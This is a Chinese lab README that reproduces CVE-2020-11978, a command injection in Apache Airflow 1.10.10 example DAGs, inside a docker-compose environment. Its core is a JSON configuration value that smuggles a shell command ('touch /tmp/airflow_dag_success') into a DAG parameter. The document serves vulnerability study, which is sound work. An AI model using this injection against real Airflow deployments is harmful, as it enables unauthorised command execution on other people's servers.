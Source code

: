 # Airflow 示例dag中的命令注入（CVE-2020-11978）

airflow是一款开源的，分布式任务调度框架。在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- <https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx>
- <https://github.com/pberba/CVE-2020-11978>

## 漏洞环境

依次执行如下命令启动airflow 1.10.10：

```bash
#初始化数据库
docker-compose run airflow-init initdb

#启动服务
docker-compsoe up -d
```

## 漏洞复现

访问`http://your-ip:8080`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![](1.png)

再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：

![](2.png)

等几秒可以看到执行成功：

![](3.png)

到CeleryWorker容器中进行查看：

```bash
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：

![](4.png)
